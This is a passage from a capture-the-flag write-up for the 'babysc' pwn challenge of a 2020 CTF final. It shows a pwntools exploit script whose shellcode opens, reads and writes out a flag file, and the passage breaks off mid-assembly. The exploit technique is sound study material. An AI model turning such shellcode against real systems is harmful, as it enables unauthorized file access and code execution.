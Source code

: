 <img src="/images/csctf2020/getdetnts64.png">

now we can just `read` and `write` the flag

{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/cscctf2020-final/pwn/babysc/babysc")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* main+180"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)

    a = asm(shellcraft.openat(-2, '/home/babysc/55ffa688e1003d7020b4b2b0e84b85fc/flag.txt').rstrip())
    a += asm('''            
            
            mov rdi, rax
            lea rsi, [rsp]
            mov rdx, 0x1000
            mov rax, 0
            syscall
            mov rdi, 1
            lea rsi, [rsp]
            mov rdx, rax
            mov rax,1